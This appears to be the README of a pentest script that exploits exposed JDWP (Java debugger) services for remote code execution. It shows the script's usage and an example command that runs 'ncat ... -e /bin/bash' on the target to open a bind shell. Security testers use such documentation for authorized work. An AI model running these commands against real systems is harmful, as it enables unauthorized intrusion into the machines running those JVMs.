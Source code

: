 # JDWP exploitation script

## What is it ?
This exploitation script is meant to be used by pentesters against active JDWP service, in order to gain Remote Code Execution.

## How does it work ?
Well, in a pretty standard way, the script only requires a Python 2 interpreter:

	% python ./jdwp-shellifier.py -h
	usage: jdwp-shellifier.py [-h] -t IP [-p PORT] [--break-on JAVA_METHOD]
                          [--cmd COMMAND]

    Universal exploitation script for JDWP by @_hugsy_

    optional arguments:
    -h, --help            show this help message and exit
    -t IP, --target IP    Remote target IP (default: None)
    -p PORT, --port PORT  Remote target port (default: 8000)
    --break-on JAVA_METHOD
    Specify full path to method to break on (default:
    	java.net.ServerSocket.accept)
    	--cmd COMMAND         Specify full path to method to break on (default:
    		None)

To target a specific host/port:
	% python ./jdwp-shellifier.py -t my.target.ip -p 1234
This command will only inject Java code on the JVM and show some info like Operating System, Java version. Since it does not execute external code/binary, it is totally safe and can be used as Proof-Of-Concept

	% python ./jdwp-shellifier.py -t my.target.ip -p 1234 --cmd "ncat -v -l -p 1234 -e /bin/bash"
This command will actually execute the process `ncat` with the specified argument with the rights given to the running JVM.

## Thanks
* Ilja Van Sprundel
* Sebastien Macke





